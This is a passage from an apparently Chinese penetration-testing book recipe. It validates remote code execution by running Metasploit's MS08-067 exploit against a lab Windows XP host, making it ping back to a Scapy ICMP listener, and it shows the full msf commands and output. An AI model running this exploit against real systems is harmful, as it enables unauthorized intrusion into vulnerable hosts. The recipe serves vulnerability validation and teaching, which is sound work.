要使用ICMP交互验证漏洞，你需要一个运行拥有远程代码执行漏洞的软件的系统。 此外，本节需要使用文本编辑器（如VIM或Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM和Nano）”秘籍。

### 操作步骤

在实际利用给定漏洞之前，我们必须部署一个脚本，来记录传入的ICMP流量。 这可以通过使用Scapy的简单Python脚本完成，如下所示：

```
#!/usr/bin/python

import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR) 
from scapy.all import *

def rules(pkt):   
    try:      
        if (pkt[IP].dst=="172.16.36.224") and (pkt[ICMP]):
            print str(pkt[IP].src) + " is exploitable"  
    except:    
        pass

print "Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening"

sniff(lfilter=rules,store=0) 
```

这个Python脚本监听所有传入的流量，并将发往扫描系统的任何ICMP流量的源标记为存在漏洞。 为了使用此脚本验证漏洞是否能够利用，我们需要执行代码，使远程系统`ping`我们的扫描系统。 为了演示这一点，我们可以使用 Metasploit 来利用远程代码执行漏洞。 但在这之前，我们需要启动我们的脚本，如下：

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening 
```

接下来，我们需要利用导致远程代码执行的漏洞。 通过检查 Windows XP 框的 Nessus 扫描结果，我们可以看到系统容易受到 MS08-067 漏洞的攻击。 为了验证这一点，我们使用执行`ping`命令的载荷，使其`ping`我们的扫描系统来利用漏洞，如下所示：

```
msf > use exploit/windows/smb/ms08_067_netapi 
msf  exploit(ms08_067_netapi) > set PAYLOAD windows/exec 
PAYLOAD => windows/exec 
msf  exploit(ms08_067_netapi) > set RHOST 172.16.36.225 
RHOST => 172.16.36.225 
msf  exploit(ms08_067_netapi) > set CMD cmd /c ping 172.16.36.224 -n 1
CMD => cmd /c ping 172.16.36.224 -n 1 
msf  exploit(ms08_067_netapi) > exploit

[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability... 
```

Metasploit中的利用配置为使用`windows / exec`载荷，它在被利用系统中执行代码。 此载荷配置为向我们的扫描系统发送单个ICMP回显请求。 执行后，我们可以通过查看仍在监听的原始脚本来确认漏洞利用是否成功，如下所示：

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening 
172.16.36.225 is exploitable
```

### 工作原理

此脚本的原理是监听来自远程主机的传入的ICMP流量。 通过执行代码，使远程系统向我们的监听服务器发送回显请求，我们可以通过利用特定的漏洞来验证远程代码执行是否可以利用。